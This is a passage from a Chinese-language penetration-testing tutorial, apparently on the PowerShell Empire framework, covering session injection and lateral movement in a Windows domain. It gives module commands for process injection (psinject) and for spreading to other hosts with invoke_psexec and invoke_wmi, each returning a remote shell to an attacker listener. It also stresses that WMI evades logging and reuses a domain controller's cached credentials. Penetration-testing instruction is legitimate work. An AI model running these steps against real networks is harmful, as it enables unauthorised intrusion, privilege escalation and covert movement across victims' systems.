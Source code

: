--图片--

## 4.2 会话注入
### 4.2.1 psinject
也可以通过以下命令进行进程注入，获取权限。接着设置Listener和Proc ID这连个参数，运行后就会反弹一个域用户权限shell，如下图：

```
usemodule management/psinject
set Listener c1ay
set ProcId 2144 (上面域用户的进程ID)
execute
```

--图片--

会话返回成功。

--图片--

### 4.2.2 Invoke-PsExec
通过这个模块的前提是已经获得本地管理员权限，甚至域管理员账户，然后以次进一步渗透整个内网。优点是可以直接获得system权限，缺点是该工具能呗基本得杀软检测并留下日志，而且需要开启admin$445端口共享。通过以下命令可以执行该模块。

```
usemodule lateral_movement/invoke_psexec
set ComputerName win7
set Listener c1ay
```

--图片--

一个新的会话成功反弹并且是系统权限。返回agents可以查看

--图片--

### 4.2.3 Invoke-WMI
这个模块比PsExec安全的多，所有Windows系统都启动了该服务，当攻击者使用wmiexec进行攻击时，Windwos系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无须写入磁盘，具有极高的隐秘性，但如果目标机器开启防火墙，则用WMI将无法连接上目标机器。执行如下命令可以使用该模块。

```
usemodule lateral_movement/invoke_wmi
set ComputerName win7
set Listener c1ay
execute
```

使用该模块可以获得administrator权限。

如果该主机具有其他域用户凭证，则可以进行横向移动。

--图片--

这里因为DC曾登录过本机，因此可以获得DC用户的凭证进行横向移动。

--图片--

### 4.2.4 spawn监听器
输入以下命令即可使用该模块，输入info可以查看需要配置的参数。
